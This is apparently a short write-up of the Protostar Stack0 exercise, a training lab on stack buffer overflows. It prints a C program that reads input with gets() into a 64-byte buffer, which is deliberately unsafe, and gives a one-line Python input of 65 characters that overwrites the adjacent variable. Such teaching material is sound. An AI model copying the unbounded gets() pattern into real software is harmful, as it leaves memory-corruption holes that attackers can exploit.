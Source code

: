 #### Protostar Stack0
##### About

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.  
  
This level is at /opt/protostar/bin/stack0  

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

The value of the parameter "int modified" can be changed by overflowing char buffer[64].  
  
Because gets() is an unsafe function.

##### Solution
```
$ python -c "print 'A'*65" | ./stack0
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>
